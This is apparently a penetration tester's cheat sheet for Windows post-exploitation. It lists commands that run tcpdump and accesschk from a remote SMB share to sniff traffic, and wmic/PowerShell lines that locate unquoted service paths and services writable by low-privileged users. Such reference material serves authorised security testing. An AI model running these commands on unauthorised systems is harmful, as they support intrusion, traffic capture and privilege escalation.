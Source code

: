 ## Network monitoring
```bash
//$source_ip/$smb_share/tools_windows/tcpdump.exe -s 0 -w tcpdump.out
```
```bash
//$source_ip/$smb_share/tools_windows/tcpdump.exe port 80 -s 0 -w tcpdump.out 
```
```bash
//$source_ip/$smb_share/tools_windows/tcpdump.exe net 10.10.10.0/24 -s 0 -w tcpdump.out 
```
```bash
//$source_ip/$smb_share/tools_windows/tcpdump.exe host 10.10.10.10 -s 0 -w tcpdump.out 
```

## Service Permissions 

### Find service unquote paths
```bash
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\" |findstr /i /v """
```
```bash
gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```

### Services with write access
```bash
//$source_ip/$smb_share/tools_windows/accesschk.exe -uwcqv * /accepteula
```
```bash
//$source_ip/$smb_share/tools_windows/accesschk-2003-xp.exe -uwcqv * /accepteula
```
```bash
//$source_ip/$smb_share/tools_windows/accesschk-2008-vista.exe -uwcqv * /accepteula
```

### Services with write access to user testuser
```bash
//$source_ip/$smb_share/tools_windows/accesschk.exe -uwcqv "testuser" * /accepteula
```
```bash
//$source_ip/$smb_share/tools_windows/accesschk-2003-xp.exe -uwcqv "testuser" * /accepteula
```
```bash
//$source_ip/$smb_share/tools_windows/accesschk-2008-vista.exe -uwcqv "testuser" * /accepteula
```

### Services with write access for Authenticated Users
```bash
//$source_ip/$smb_share/tools_windows/accesschk.exe -uwcqv "Authenticated Users" * /accepteula
```
```bash
//$source_ip/$smb_share/tools_windows/accesschk-2003-xp.exe -uwcqv "Authenticated Users" * /accepteula
```
```bash
//$source_ip/$smb_share/tools_windows/accesschk-2008-vista.exe -uwcqv "Authenticated Users" * /accepteula
```
